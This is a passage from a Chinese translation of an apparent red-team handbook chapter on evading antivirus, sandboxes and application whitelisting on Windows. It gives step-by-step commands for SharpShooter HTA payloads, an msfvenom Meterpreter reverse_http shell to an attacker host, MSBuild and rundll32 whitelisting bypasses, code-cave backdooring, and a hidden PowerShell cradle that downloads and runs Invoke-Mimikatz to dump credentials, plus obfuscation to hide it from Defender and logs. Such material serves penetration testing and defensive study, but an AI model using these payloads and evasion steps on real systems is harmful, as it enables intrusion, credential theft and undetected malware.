* 确保将构建模式设置为 `Release` 并编译 `x64` 
* 保存并构建
* 在 `metasploit-payloads\c\x64_defender_bypass\x64\Release` 下，将创建一个新的二进制文件 `x64_defender_bypass.exe`。在运行了 Windows Defender 的受害计算机上执行此 payload。当此项目构建成功，Windows Defender 不能检测到这个 payload。

你现在拥有一个深度混淆过的 Meterpreter 二进制文件和混淆过的传输层，以绕过所有默认的保护。现在这仅仅是一个让你入门的 POC。只要本书一发布，我可以预见到其中一些技术不久就会被检测出签名。你还可以采取更多措施来更好地规避检测工具。例如，你可以：
* 使用 clang 混淆工具链来构建
* 对所有字符串使用字符串加密库
* 更改 Meterpreter 入口点（目前是 Init ）
* 创建一个自动化脚本，为所有 payload 类型添加空指令（nops）
* 编辑 payload 生成的实际 ruby，以便在每次运行时随机化 payload

## SharpShooter
作为红队队员，最耗时的事情之一就是创建可以躲避新一代杀毒软件和沙盒安全机制的 payload。我们一直在寻找新的方法来创建我们的初始 `stager`。一个名为 `SharpShooter` 的工具采用了许多反沙盒技术和 James Forshaw 的 DotNetToJScript 来执行 Windows 脚本格式的 shellcode（CACTUSTORCH工具——   https://github.com/mdsecactivebreach/CACTUSTORCH ）。

摘自 [MDSec 网站对于 SharpShooter 的描述](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/)：“SharpShooter 支持 `staged` 和 `stageless` 这两种类型 payload 的执行。`staged` 执行可以在 HTTP/HTTPSS、DNS 或 HTTP/HTTPS 与 DNS 相结合等这些情况下进行。当一个 `staged` payload 执行时，它将尝试检索已经压缩的 `C#` 源代码文件，之后使用所选的传输技术进行 base64 编码。随后在主机上使用 .NET CodeDom 动态编译器对 `C#` 源代码进行下载和编译。然后使用反射从源代码执行所需的方法。”

让我们快速把一个示例走一遍：
* python SharpShooter.py --interactive 
* 1 - For .NET v2
* Y - Staged Payload 
* 1 - HTA Payload
* 可以选择使用以下防沙盒技术：
    * 你可以选择你想用的技术来绕过沙盒机制从而成功的执行你的恶意软件。
    * [1] Key to Domain
    * [2] 确保 Domain 加入
    * [3] 检查沙盒痕迹
    * [4] 检查错误的 MAC 地址
    * [5] 检查调试
* 1 - 网络传输
* Y - 内置 shellcode 模板
* shellcode 作为一个字节数组
    * 打开一个新终端并创建一个 C# 语言的 Meterpreter payload
    * msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=10.100.100.9 LPORT=8080 EnableStageEncoding=True StageEncoder=x86/shikata_ga_nai -f csharp
    * 复制 `{` 和 `}` 之间的所有内容并作为字节数组提交
* 为 C# 网络传输提供 URI
    * 输入攻击者机器的IP/端口和文件。示例：http://10.100.100.9/malware.payload
* 提供输出文件的文件名
    * 恶意软件
* Y - 你想将 payload 嵌入到 HTML 文件中吗？ 
* 使用自定义（1）或预定义（2）模板
    * 要进行测试，请选择任意预定义模板
* 将新创建的恶意文件移动到你的 Web 目录下
    * mv output/* /var/www/html/
* 为你的 payload 建立一个 Meterpreter 处理程序（handler）

配置和开发了恶意软件后，将其移至 Web 目录（malware.hta，malware.html，malware.payload），启动 apache2 服务，然后启动你的 Meterpreter 处理程序。你现在已经做好准备，通过诱导受害者访问你的恶意站点来对其发动社会工程学攻击！下图中给出的示例是 Sharpshooter 的 SharePoint 在线模板。当受害者使用 IE/Edge 浏览器访问你的恶意网页时，HTA 会自动下载并提示运行。一旦显示了提示并选择运行的话，stager payload 就会运行，下载辅助 payload（满足沙箱控件的情况下），并在内存中执行我们的 Meterpreter payload。



补充信息：
* https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/ 
* https://github.com/mdsecactivebreach/SharpShooter

## 应用程序白名单绕过
我们已经讨论了在不运行 PowerShell 代码的情况下触发 PowerShell 的不同方法，但如果你无法在 Windows 系统上运行自定义二进制文件，该怎么办？“应用绕过”的概念就是查找可以执行我们 payload 的默认 Windows 二进制文件。我们一直受限于一些环境因素比如域控（DC）的锁定机制，只能进行有限的代码执行。我们可以使用一些不同的 Windows 文件来绕过这些限制，让我们来看看它们中的几个。

一个经常被讨论的可以用于绕过应用白名单的 Windows 二进制文件是 `MSBuild.exe`。什么是 `MSBuild.exe`，它有什么作用？ MSBuild 是 .NET 框架中的一个默认应用，它是使用 XML 格式的项目文件构建 .NET 应用程序的平台。我们可以对 MSBuild 使用 XML 项目文件格式这个特性进行利用，我们可以使用名为 GreatSCT 的工具创建我们自己的恶意 XML 项目文件来执行 Meterpreter 会话，从而利用此特性。

[GreatSCT](https://github.com/GreatSCT/GreatSCT) 有我们可以使用的各种应用白名单绕过的方式，但我们只将介绍 MSBuild。在此示例中，我们将创建一个托管 reverse_http Meterpreter 会话的恶意 XML 文件。这将要求我们将 XML 文件写入受害系统并使用 MSBuild 来执行该 XML 文件：
* git clone https://github.com/GreatSCT/GreatSCT.git /opt/ 
* cd /opt/GreatSCT
* python3 ./gr8sct.py
* [4] MSBUILD/msbuild.cfg
* 填写你的主机IP[0]和端口[1]
* 生成
* 使用 Metasploit 创建一个新的 windows/meterpreter/reverse_http 的监听器



在我们的 Kali 实例中，我们使用 GreatSCT 来创建 `shellcode.xml` 文件，该文件包含构建信息和一个 Meterpreter 反向 http shell。需要将此文件移动到受害系统并使用 MSBuild 进行调用。

\*注意：我观察到 GreatSCT 项目正在 [develop 分支](https://github.com/GreatSCT/GreatSCT/tree/develop)上进行活跃的开发，其中包括 https Meterpreter 和其他应用程序白名单绕过命令执行。我估计在本书发布之前，就会被合并到 master 分支。



在 Windows 受害者计算机上执行文件调用后，使用 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe shellcode.xml` 命令，.NET 将开始构建 shellcode.xml 文件。在此过程中，将在受害者计算机上生成一个反向 http Meterpreter 会话来绕过任何应用程白名单。你可能希望编辑 shellcode.xml 文件以插入经过混淆的 payload，因为 Meterpreter 默认的 payload 很可能会触发杀毒软件。



可以使用许多种不同的方法来进行应用程序白名单绕过，光这一部分内容就足以写成一本书。以下是一些额外的资料：
* 使用 Windows 默认可执行文件的大量示例：
    * https://github.com/api0cradle/UltimateAppLockerByPassList
* 使用 REGSRV32 和 PowerShell Empire：
    * https://www.blackhillsinfosec.com/evade-application-whitelisting-using-regsvr32/
* 通过 Excel.Application 的 RegisterXLL() 方法执行 DLL:
    * https://rileykidd.com/2017/08/03/application-whitelist-bypass-using-XLL-and-embedded-shellcode/
* 利用 INF-SCT 获取并执行绕过、规避查杀和持久化技术：
    * https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/
* 利用 Regsvr32 绕过 Applocker：
    * https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/

## 代码洞（Code Caves）
与任何红队行动一样，我们一直在寻找创造性的方式在环境中横向移动或保持持久性。通常，如果我们有凭证，我们会尝试使用 WMI 或 PSExec 在远程系统上执行 payload。有些时候，我们需要找到创造性的方式在环境中移动而不被轻易跟踪。

作为红队队员,被抓住并不是入侵行动中可能发生的最糟糕的事情。最糟糕的事情是当我们被抓住并且蓝队发现了属于该行动的每个域、IP 和受感染的主机。蓝队人员通常很容易就能检测到 WMI、PSexec 的连接特征来判定内网有横向移动，因为它并不总是被视为正常流量。那么我们可以做些什么来隐藏我们的横向移动呢？

这是我们可以发挥创造性的地方，没有标准答案（如果某种方法有效，那对我来说就够好了）。一旦进入一个环境，我最喜欢做的事情之一就是发现公开共享和主动共享/执行的文件。我们可以尝试将宏添加到 Office 文件中，但这似乎太明显了。一种通常不太容易被检测出并且成功率高的攻击是将我们的自定义恶意软件嵌入可执行二进制文件中。这可以是像 putty 这样的共享二进制文件，一个内网环境中常见的胖客户端应用程序，甚至是数据库工具。

虽然不再维护，但执行这些攻击最简单的工具之一是 [Backdoor factory](https://github.com/secretsquirrel/the-backdoor-factory)。Backdoor factory 会在真实程序中查找代码洞或空块，攻击者可以在其中注入自己的恶意 shellcode。上本书中涵盖了这一点，其思路保持不变。

可以在此处找到这两个资源：
* https://haiderm.com/fully-undetectable-backdooring-pe-file/#Code_Caves 
* https://www.abatchy.com/2017/05/introduction-to-manual-backdooring_24.html
> 译者注:<br>经验证，上两个链接都已经404了。但是译者还是顽强的找到了不同网址同内容的替代资源。<br>对于第一个网址链接的文章，可以在[本地址](https://www.securitynewspaper.com/2017/11/21/fully-undetectable-backdooring-pe-files/)阅读该英文文章来查看 `Code Caves` 这一部分。<br>对于第二篇文章，几乎都404了。但是我找到了此文的出处：[Introduction-To-Manual-Backdooring](https://github.com/abatchy17/Introduction-To-Manual-Backdooring/blob/master/Introduction%20To%20Manual%20Backdooring.pdf) 这本电子书。需要的自取。

## PowerShell 混淆
PowerShell Scripts 当前的问题是，如果你将它们放到磁盘上，很多防病毒工具都会把它们检测出来。即使你将它们导入内存，查看内存的杀毒软件工具有时也会对它们发出警报。

无论如何，如果你从 Cobalt Strike、Meterpreter 或 PowerShell Empire 将它们导入内存，确保我们不会被杀毒软件检测出来是非常重要的。万一被检测出来的话，我们至少应该让应急响应团队或取证团队很难去逆向我们的攻击 payload。

我们都看过像这样的 PowerShell 命令：
```powershell
Powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass IEX (New-Object Net.WebClient).DownloadString(‘[PowerShell URL]’); [Parameters]
```
 
这是我们可能看到的最基本的 powershell 调用指令的字符串组合，可以用于绕过执行策略，来以隐藏窗口的模式（后台运行无弹窗）自动下载和执行 powershell payload。对于蓝队，我们已经看到了很多关于这些特定参数的日志记录，比如 `-Exec Bypass`。因此，我们开始通过一些常见的 PowerShell 语法来混淆此参数：

* -ExecutionPolicy Bypass
    * -EP Bypass
    * -Exec Bypass
    * -Execution Bypass
    
感谢 Daniel Bohannon 的提醒！他提醒说：更疯狂的是，我们实际上不需要打出完整的参数字符串就能使它工作。例如，对于 `-ExecutionPolicy Bypass`，所有下列示例都可以生效:
* -ExecutionPolicy Bypass
* -ExecutionPol Bypass
* -Executio Bypass
* -Exec Bypass
* -Ex Bypass

这些技术也同样适用于 `WindowStyle` 甚至 `EncodedCommand` 参数。当然，这些技巧不足以支撑我们走得更远，我们还需要创建更多的混淆变换。首先，我们可以使用一个非常简单的示例来执行我们的远程 PowerShell 脚本（在本例中为 Mimikatz）并使用以管理员身份运行的 PowerShell 提示符来转储哈希值：
* Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2JHVdzf’); Invoke-Mimikatz -DumpCreds
> 译者注：
> 1. `WindowStyle` 和 `EncodedCommand` 是 PowerShell.exe 的选项参数。`WindowStyle` 可以改变 CMD 窗口的风格，将窗口样式设置为 Normal、Minimized、Maximized 或 Hidden。`EncodedCommand` 是接受 base-64 编码字符串版本的命令。使用此参数向 Windows PowerShell 提交需要复杂引号或大括号的命令。欲知更多参数，可以在 Windows Powershell 里面使用 `powershell -help` 命令查看。
> 2. `Invoke-Expression` 能将任何的字符串当作PowerShell脚本来执行。以下附上关于 `Invoke-Expression` 的更多参考资料：
>    - [Invoke-Expression](https://forsenergy.com/zh-cn/windowspowershellhelp/html/04b8e90a-7d28-4ab2-ad13-b0316c231c77.htm)
>    - [Invoke-Expression 帮助信息](https://blog.csdn.net/PowerShell/article/details/1857793)


通过 `Invoke-Obfuscation` 混淆框架，我们可以使用以下几种不同的技术对这个字符串进行深度混淆：
* 在 Windows 上，下载用于 Invoke-Obfuscation 的 PowerShell 文件（ https://github.com/danielbohannon/Invoke-Obfuscation ）
* 加载 PowerShell 脚本并启动 Invoke-Obfuscation
    * Import-Module ./Invoke-Obfuscation.psd1 
    * Invoke-Obfuscation
* 设置要混淆的 PowerShell 脚本。在这个例子中，我们将混淆上面的 Mimikatz 哈希值下载转储脚本
    * SET SCRIPTBLOCK Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2JHVdzf’); Invoke-Mimikatz -DumpCreds
* 对 payload 进行编码
    * ENCODING
* 在这个例子中，我选择了 SecureString（AES），但你可以把所有这些混淆技术都试一试。



混淆后的字符串包含一个随机生成的密钥和一个加密的安全字符串。在管理员权限下运行 PowerShell，我们仍然可以执行完整的 payload。



我们也可以回到主屏幕并创建混淆的 launcher：
* main 
* launcher 
* CLIP++
* 选择你的执行 flag



更棒的是，查看 Windows PowerShell 日志我们会发现，如果脚本是混淆的，日志中也仅仅是记录了混淆后的东西。这个特性可以帮助我们躲避杀毒软件和 SEIM 警报工具。



除了 Invoke-Obfuscation 之外，Daniel 还创建了一个名为 [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter) 的工具，该工具专注于远程下载 cradle，是一个 PowerShell 2.0+ 版本兼容的 PowerShell 远程下载 cradle 生成器和混淆器。Invoke-CradleCrafter 的 github README 文档中介绍说，“Invoke-CradleCrafter 的存在是为了帮助蓝队和红队轻松探索、生成和混淆 PowerShell 远程下载 cradle。此外，它可以帮助蓝队测试环境检测的有效性。Invoke-CradleCrafter 可以检测 Invoke-Obfuscation 产生的输出，但是在处理 Invoke-CradleCrafter 时可能会失败，因为它不包含任何字符串拼接、编码、复选标记、类型转换等”。

> 译者注: 什么是 **cradle**？<br>
> 一个 `download cradle`（下载 cradle）是一个用于下载和代码执行的单行命令。通常可以在 maldoc 或 exploit 的末尾看到，执行攻击生命周期中第二阶段的exploit/infection 下载。在某些情况下，比如攻击者运行无文件时，一个下载 cradle 也可以是其他攻击阶段的持久性机制、工具或执行的一部分。<br>
> 参考资料：[Powershell Download Cradles](https://mgreen27.github.io/posts/2018/04/02/DownloadCradle.html)

## 不使用 PowerShell.exe 执行 PowerShell 脚本
你最终在一个目标机器上找到了远程代码执行漏洞，但是你发现无法运行 PowerShell.exe 或该公司正在监视 PowerShell.exe 的命令。有哪些选项可以让你的 PowerShell payload 或 C2 代理在该主机系统上运行？

**NoPowerShell（NPS)**

我喜欢 NoPowerShell 或 NPS 的概念。NPS 是一个 Windows 二进制文件，它通过 .Net 执行 PowerShell 脚本，而不是直接调用 PowerShell.exe。虽然现在杀毒软件通常会标记这一点，但我们可以使用相同的概念来创建二进制文件，以直接执行我们的 PowerShell 恶意软件而无需 PowerShell.exe。Ben0xA 已经为你提供了源代码 ，因此请随意尝试对二进制文件进行混淆处理以解决杀毒软件的绕过问题。

NPS_Payload（ https://github.com/trustedsec/nps_payload ）

对 NPS 的另一种实施思路是 TrustedSec 的一个工具，通过 MSBuild.exe 执行代码。此工具将生成 PowerShell payload 到一个 msbuild_nps.xml 文件中，该文件在调用时执行。此 XML 文件可以通过以下方式调用：
* C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\\<path_to_msbuild_nps.xml>

**SharpPick**

SharpPick 是 PowerPick 的一个组件，它是一个很棒的工具，允许你在不调用 PowerShell.exe 二进制文件的情况下调用 PowerShell。在 SharpPick 中，“ RunPS 函数调用 System.Management.Automation 函数在 PowerShell 运行空间内执行脚本，而无需启动 PowerShell 进程。” [ http://www.sixdub.net/?p=555 ]

下载 [SharpPick](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) 后，你可以使用你的 PowerShell Empire payload 并创建二进制文件。有关如何设置环境和构建 payload 的完整演练，请访问：
* http://www.sixdub.net/?p=555 
* https://bneg.io/2017/07/26/empire-without-powershell-exe/

有时我们可能没办法在主机系统上放一个二进制文件。在这种情况下，我们可以创建一个类库（DLL 文件），将其放到主机系统上并使用 `rundll32.exe runmalicious.dll,EntryPoint` 执行。

当然，这些 DLL 文件的创建可以由 Meterpreter 或 Cobalt Strike 自动完成，但是好在我们可以灵活地运行特定的 PowerShell payload，而无需调用 PowerShell.exe。

> `译者注` 译者找到的额外参考资料:
> 1. 关于 rundll32.exe 的文章：[利用 rundll32.exe 运行 dll 绕过杀毒软件](http://www.weblcx.com/100.html)
> 2. 关于不使用 PowerShell.exe 执行 PowerShell 脚本的文章：[PowerShell: Malwares use it without powershell.exe](https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/)

## HideMyPS
[HideMyPS](https://github.com/cheetz/hidemyps) 是一个我几年前写的工具，至今它仍然广受好评。它一直都只是个 POC 工具，但即使经过这么多年它仍然有效。我遇到的问题是，现在任何 PowerShell 脚本都会被杀毒软件检测。例如，如果我们在带有 Windows Defender 的 Windows 系统上丢下了原生的 [Invoke-Mimikatz.ps1](http://bit.ly/2H3CNXS)，微软杀毒软件将立即启用查杀功能捕获 PowerShell 脚本并发送警告。这是传统杀毒软件的主要缺陷之一，事实是它们通常在恶意软件中寻找非常特定的字符串。因此，我整理了一个小的 Python 脚本，该脚本采用 PowerShell 脚本并对所有字符串进行混淆处理（仅使用少量脚本对其进行测试，因此它远不及生产代码）。

HideMyPS 将找到所有函数并使用 ROT 对它们进行混淆处理，从 PowerShell 脚本中删除所有注释，并切分字符串以躲避杀毒软件的静态签名分析检测。对于下一个例子，让我们使用 [Invoke_Mimikatz.ps1](http://bit.ly/2H3CNXS) 并对其进行混淆：

* cd /opt/HideMyPS
* python hidemyps.py invoke_mimikatz.ps1 [filename.ps1]



现在，看看原始文件和你创建的新文件之间的区别。首先，你可以看到函数名称全部混淆，变量已经被改，字符串被分解为两半，并且所有注释都移除了。



你必须记住的一件事是我们更改了 PowerShell 脚本中的所有函数名称。因此，为了调用函数，我们将不得不回顾我们的混淆文件，看看我们做了什么来替换  `Invoke-Mimikatz` 函数。在这个例子中，`Invoke-Mimikatz` 改名为 `Vaibxr-Zvzvxngm`。以下示例是在完全修补的 Windows 10 上运行的，其中 Windows Defender 已经更新到最新版本。



## 本章总结
作为红队成员或渗透测试工程师，我们总是在与主机/网络检测工具玩猫捉老鼠的游戏。这就是为什么理解潜在保护体系的工作机制、编写底层代码以直接与 Windows API 而不是 shell 命令进行交互，以及跳出框框进行创造性思考这些能力是非常重要的。如果你的关注点仅限于一些常用工具，那么你的入侵行动有很大的概率会在企业环境中被检测到。如果这些工具是公开的，那么安全厂商很可能会在它们刚出现时候就对其进行逆向并且为它们开发签名。你可以利用当前已有的攻击工具并以某种方式对其进行定制化二次开发，使其不能被这些安全厂商识别。
